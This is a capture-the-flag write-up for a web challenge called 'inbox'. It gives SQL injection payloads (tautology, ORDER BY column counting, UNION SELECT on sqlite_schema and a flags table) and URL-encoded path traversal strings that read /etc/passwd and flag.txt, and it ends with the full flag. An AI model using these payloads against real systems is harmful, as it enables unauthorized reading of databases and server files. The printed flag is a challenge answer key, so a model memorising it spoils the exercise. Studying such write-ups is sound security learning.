










after visiting the website and clicking in search for user, we get one page which presente us 
a search input in order to search user by enter the name.
directly, i thought about **xss** or **sqli**. but after make some test, i  understand that the search functionality is vulnerable to sqli **SQL INJECTION **
how i know that?: i make some test.  
i order to test for sqli, we can input some char like (", ', `, (' , (", )  which will trigger an error if they are sqli vuln . see below

i input **'** and i get error.
so let get users from the database:
**payload**: 'or '1' ='1' --
we get all the user;

 
we can fuger out that  the **union base sqli** is evalable
so let get the number of column.
payload: **'or '1' ='1'  ORDER BY  2--**
output: good we get all the user.

 
payload: **'or '1' ='1'  ORDER BY  3--**
output: good we get an error.

conclusion: **the number of column is 2**

#now we need to know the type of DBMS the backend use. let make some test. 
in order to do that, i try to get dbms version by using some payload.
# from portswigger
 Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version 

after try these payload and get alwayse an error, i try to test for *SQLITE* and that work
 
payload:   **'or '1' ='1'  UNION SELECT null, sql FROM sqlite_schema--**
output: ** 
Results

- CREATE TABLE flags ( flag varchar(255) )

- CREATE TABLE users ( id int, email varchar(255) )

1 - alice@fakeinbox.com

2 - bob@fakeinbox.com

3 - charlie@fakeinbox.com**
so we see that the database have to table, users, and flags. the flags table is very important for use. 😅
so let dump all value from flags table:
payload: **'or '1' ='1'  UNION SELECT null, flag FROM flags--**
output: see picture below

we get the fist part of the flag:
#  flag{off_to_a_good_start_
/
#end of part one
#know we need to hunt the second part of the flag. are you ready? let go
after clicking on [- flag{off_to_a_good_start_] from the previous page we got, we get this page:
\\\
the backend code try to include 'flag{off_to_a_good_start_' file from './mail' directory.
let me say that the website use 
# node js, express as backend
so we need to make local file inclusion in order to read files from the server.
after make some test and gest nothing, i use **ffuf**  and **seclist** to fuzz for valide payload.
see this image:
 \\
so payload like this can work: ..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd
 
we read /etc/passwd flag.\\
by exploiting this vunl, we can list the content of all directory on the server. 
payload like this: ..%2F..%2F..%2F%2F..%2F..%2
# list the content of / directory

payload: https://thecybercoopctf-inbox.chals.io/mail/..%2F..%2F..%2F%2F..%2F..%2Fusr%2fsrc%2fapp
output:
'''
Emails

flag.txt

inbox.db

index.js

mail

migrations.sql

node_modules

package-lock.json

package.json

views
'''
with this payload: we read the content of: /usr/src/app
and we see that we have the flag.txt file on it. so let read the content of this file.
payload: **https://thecybercoopctf-inbox.chals.io/mail/..%2F..%2F..%2F%2F..%2F..%2Fusr%2fsrc%2fapp/flag.txt**
output: see image below.
 

so we get the last part of the flag
# even_better_finish_though}
# the final flag ist: flag{off_to_a_good_start_even_better_finish_though}
